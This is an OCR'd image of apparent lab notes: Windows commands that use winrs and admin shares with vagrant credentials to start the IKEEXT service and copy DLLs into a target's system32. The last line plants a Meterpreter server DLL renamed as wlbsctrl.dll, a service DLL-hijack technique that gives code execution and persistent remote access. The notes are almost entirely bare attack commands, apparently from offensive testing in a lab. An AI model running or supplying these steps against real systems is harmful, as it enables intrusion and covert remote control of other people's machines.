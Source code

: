 winrs /r:http://192.168.29.133:5985  /u:vagrant /p:vagrant ipconfig
winrs /r:http://192.168.29.133:5985  /u:vagrant /p:vagrant net start ikeext
winrm set winrm/config/client @{TrustedHosts="192.168.29.133"}
copy build\wlbsctrl.dll \\192.168.29.133\c$\windows\system32

copy build\loader.exe \\192.168.29.133\c$\windows\system32


winrs /r:http://192.168.29.133:5985  /u:vagrant /p:vagrant cmd /c dir c:\

dumpbin /exports

https://learn.microsoft.com/en-us/cpp/build/reference/decorated-names?view=msvc-170



set TARGET=172.16.65.129

copy build\test.dll \\172.16.65.129\c$\windows\system32

copy build\metsrv\metsrv.x64.dll \\172.16.65.129\c$\windows\system32\wlbsctrl.dll